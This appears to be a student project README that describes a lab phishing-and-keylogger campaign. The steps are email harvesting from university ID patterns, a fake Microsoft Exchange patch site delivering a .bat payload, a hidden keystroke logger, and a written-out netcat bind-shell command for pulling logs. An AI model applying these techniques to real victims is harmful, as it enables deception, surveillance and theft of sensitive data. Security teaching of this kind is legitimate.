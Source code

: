# keylogger

Disclaimer: This project is for educational purposes only. 

The project consists of three stages, reconnaissance, phishing, and attack, respectively. During the recon stage, the attacker collects target email addresses and uses ARP scan to obtain target IPs. Next, during the phishing stage, the attacker sends phishing emails that contain the link of the phishing website (fake Microsoft website in our case) to the victims. The downloader in the phishing website will redirect to the link of malware. If the victims follow the instructions, that is, download and run the .bat file (contains malware actually), the executable will start logging the keystrokes and create a backdoor shell. So the attacker can use the backdoor to retrieve a log file that contains some sensitive data. You can check the [slide](https://docs.google.com/presentation/d/1gPKOFa4L5iZNUBC93aRHLyo68CuBljt5r5G959ol310/edit?usp=sharing) and [demo video](https://drive.google.com/file/d/1p_wR3EA5aYX3AFgCXlgbovBPu3-YU2k-/view?usp=sharing) for the further information. 

![](https://github.com/chuang76/keylogger/blob/main/figure/arch.png?raw=true)



## Requirement

- Virtualbox 5.2.18
- Kali Linux 64-bit VM
- Windows Server 2016 VM, which security protection is disabled (i.e., no firewall and antivirus software)
- Visual Studio C++ build tools 
- Netcat 



## How to use

### Recon

1. Target email addresses: According to the NCKU student ID number rule, we can collect a number of email addresses that end with @gs.ncku.edu.tw. For example, the student ID number which starts with "F7409" means the student majors in computer science and is enrolled in 2020. 

2. Target IPs: Since the attacker and victims are in the same subnet, we can use the `arp-scan` command in the Kali machine to execute the scanning, then parse the information to get target IPs. 

   ```
   $ sudo arp-scan -local 
   ```

### Phishing 

Microsoft exchange server vulnerability is one of the serious issues in 2021. Microsoft then released the patches to tackle the vulnerability. Our idea is to create a fake Microsoft patching website and cheat the victims to download the fake patch, which is malware actually.  

1. Phishing email: Warn the victims there may be a Microsoft exchange server vulnerability in his/her computer and lead the victims to access the phishing website. 

2. Phishing website: Use DriveToWeb service to host the phishing website, which is the same as the Microsoft official patching website, except for the instructions and the downloader. 

### Keylogger

The keylogger is based on Windows programming with C++. The keylogger keeps tracking keystrokes with the WinAPI `GetAsyncKeyState()` and logging the typed information as a file. Besides, the keylogger is hidden from the taskbar with the WinAPI `ShowWindow()` and the parameter `SW_HIDE`. For detailed information, please check the Windows app developer documentation. 

### Backdoor shell

Netcat is a useful networking tool. However, it is not secure. In our case, we use Netcat to create a backdoor shell. So we can retrieve the logging file which contains some sensitive information. 

1. Victim

   ```
   $ nc -l -p <port number> -t -e cmd.exe
   ```

2. Attacker

   ```
   $ nc <victim IP> <port number>
   ```

   

## Result

Here are some snapshots. 

The left is the official Microsoft patching website, while the right is the phishing website. 

![](https://github.com/chuang76/keylogger/blob/main/figure/phishing.png?raw=true)

Launch the keylogging attack successfully as follows, the left is the attacker and the right is the victim. 

![](https://github.com/chuang76/keylogger/blob/main/figure/result.png?raw=true)
